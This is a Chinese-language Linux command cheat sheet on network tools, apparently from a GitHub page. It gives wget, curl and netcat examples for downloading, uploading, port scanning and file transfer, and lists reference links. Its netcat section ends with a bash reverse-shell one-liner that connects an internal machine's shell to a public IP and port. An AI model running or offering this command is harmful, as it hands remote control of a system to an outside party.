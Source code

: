 ## 网络请求

```sh
# Redirecting Output
$ wget -O filename.zip http://www.domain.com/filename-4.0.1.zip
# 递归下载整个站点
$ wget --recursive http://url.com
# Downloading in the background
$ wget -b http://domain.com/filename.tar.gz
# Limiting the download speed
$ wget --limit-rate=200k http://www.domain.com/filename.tar.gz

# 展示 curl 的进度
$ curl --progress-bar -T "${SOME_LARGE_FILE}" "${UPLOAD_URL}" | tee /dev/null
```

nc 也是常见的网络监听与请求工具：

```sh
# 端口扫描
$ nc -v -w 2 192.168.2.34 -z 21-24

# 监听
$ nc -l 1234
$ nc 192.168.2.34 1234

# 文件拷贝，从 192.168.2.33 拷贝文件到 192.168.2.34
$ nc -l 1234 > test.txt # 192.168.2.34
$ nc 192.168.2.34 < test.txt # 192.168.2.33

# 发送端
$ cat a.txt  |  nc -l  3333
# 接收端
$ nc 192.168.0.3    3333 >   a.txt

# 将内网的 Shell 反弹到某个公网的端口
$ bash -i >& /dev/tcp/180.100.74.29/8182 0>&1
```

# Todos

- [ ] [the-art-of-command-line](https://parg.co/bXZ)
- [ ] [Linux Commands Cheat Sheet](https://parg.co/Uqu)
- [ ] https://gist.github.com/alkavan/746547
- [ ] https://github.com/macrozheng/mall/blob/master/document/reference/linux.md
